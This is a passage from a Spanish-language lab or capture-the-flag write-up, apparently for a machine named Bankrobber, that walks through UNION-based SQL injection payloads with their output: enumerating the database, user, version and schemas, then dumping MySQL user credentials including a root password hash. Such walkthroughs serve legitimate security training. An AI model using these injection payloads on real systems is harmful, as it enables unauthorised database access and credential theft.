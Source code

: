     Vemos que hay 3 columnas y vemos la 1 y la 2.

1. Cual es la base de datos

    ```bash
    1' union select 1,database(),3-- -
    #Output
    1,admin
    1,bankrobber
    ```

1. Cual es el usuario que esta actualmente coriendo la base de datos

    ```bash
    1' union select 1,user(),3-- -
    #Output
    1,admin
    1,root@localhost 
    ```

1. Cual es la version de la base de datos

    ```bash
    1' union select 1,version(),3-- -
    #Output
    1,admin
    1,10.1.38-MariaDB
    ```

1. Cual son las otras bases de datos que existen

    ```bash
    1' union select 1,schema_name,3 from information_schema.schemata-- -
    #Output
    1,admin
    1,bankrobber
    1,information_schema
    1,mysql
    1,performance
    1,phpmyadmin
    1,test
    ```

    S4vi nos adelanta que en la base de datos de bankrobber estan unas credenciales de usuarios, pero que no nos sirben porque ya somos admin.
    miramos por la db mysql

1. Buscamos credenciales

    ```bash
    1' union select 1,group_concat(User,0x3a,Password),3 from mysql.user-- -
    #Output
    1,admin
    1,root:*F435735A173757E57BD36B09048B8B610FF4D0C4
    ```
